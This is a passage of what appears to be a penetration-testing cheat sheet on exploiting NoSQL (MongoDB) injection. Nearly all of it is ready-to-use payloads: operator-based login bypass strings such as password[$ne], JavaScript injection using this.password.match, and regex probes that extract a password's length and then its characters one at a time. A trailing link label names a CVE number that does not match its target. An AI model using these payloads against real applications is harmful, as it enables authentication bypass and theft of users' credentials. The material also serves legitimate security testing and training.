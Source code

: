[Operators](https://docs.mongodb.com/manual/reference/operator/query/) (for searches/matching):

- $eq
- $ne
- $gt
- $lt
- $and
- $or
- $where
- $exists
- $regex

### 4.19.1. Exploiting NoSQL Injection

In URL query parameters, you put the nested object key or operator in brackets. Here is an example that might work for auth bypass:

```
http://example.com/search?username=admin&password[$ne]=derp

# other short examples:
password[$regex]=.*
password[$exists]=true
```

In POST body (JSON):

```json
{"username": admin, "password": {"$ne": null} }

// other examples
{"username": admin, "password": {"$gt": undefined} }
```

SQL vs Mongo injection:

```
Normal sql: ' or 1=1-- -
Mongo sql: ' || 1==1//    or    ' || 1==1%00

/?search=admin' && this.password//+%00 --> Check if the field password exists
/?search=admin' && this.password.match(/.*/)//+%00 --> Start matching password
/?search=admin' && this.password.match(/^p.*$/)//+%00
/?search=admin' && this.password.match(/^pa.*$/)//+%00
```

Extracting length information:

```
username=admin&password[$regex]=.{1}
username=admin&password[$regex]=.{3}
# True if the length equals 1,3...
```

Building password:

```
username=admin&password[$regex]=p.*
username=admin&password[$regex]=pa.*
username=admin&password[$regex]=pas.*
username=admin&password[$regex]=pass.*
...
# in JSON
{"username": "admin", "password": {"$regex": "^p" }}
{"username": "admin", "password": {"$regex": "^pa" }}
{"username": "admin", "password": {"$regex": "^pas" }}
...
```


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744